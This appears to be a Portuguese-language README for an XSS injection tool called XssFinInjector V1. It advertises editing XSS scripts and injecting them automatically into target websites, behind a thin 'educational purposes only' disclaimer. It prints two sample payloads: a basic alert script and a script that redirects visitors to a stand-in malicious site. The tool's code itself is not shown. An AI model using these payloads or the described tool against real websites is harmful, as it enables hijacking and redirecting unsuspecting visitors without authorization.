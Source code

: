 # XssFinInjector V1

Bem-vindo ao Programa de Injeção de Código Xss! Este programa foi criado com o intuito de fornecer ferramentas para injetar scripts XSS em sites. Lembre-se de que o uso dessas técnicas sem a devida autorização é ilegal e antiético. Este programa é fornecido apenas para fins educacionais e de pesquisa.

## Funcionalidades

- Edição de scripts XSS: Você pode usar o programa para editar o script XSS que será injetado nos sites alvo.
- Injeção automática: O programa é capaz de realizar a injeção automática do código malicioso nos sites especificados.

## Exemplos de Scripts XSS

Aqui estão alguns exemplos de scripts XSS que você pode usar:

1. Script XSS básico:
```html
<script>alert("Este é um ataque XSS!");</script>

2. Script XSS de redirecionamento:
```html
<script>window.location.href = 'http://www.site-malicioso.com';</script>

